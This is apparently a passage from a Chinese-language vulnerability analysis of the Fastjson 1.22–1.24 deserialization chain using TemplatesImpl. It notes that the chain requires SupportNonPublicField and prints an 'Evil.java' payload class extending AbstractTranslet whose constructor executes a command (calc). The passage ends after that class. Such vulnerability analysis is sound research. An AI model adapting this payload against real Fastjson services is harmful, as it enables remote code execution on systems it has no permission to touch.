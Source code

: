 # Fastjson1.22-1.24反序列化分析之TemplateImpl

## 限制

这个利用链要求还是很高的，需要设置`Feature.SupportNonPublicField`才能成功触发

## 利用过程

首先写一个`Evil.java`，需要继承`AbstractTranslet`后面会简单说到

```java
public class Evil extends AbstractTranslet {
    public Evil() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Evil t = new Evil();
    }
}
```

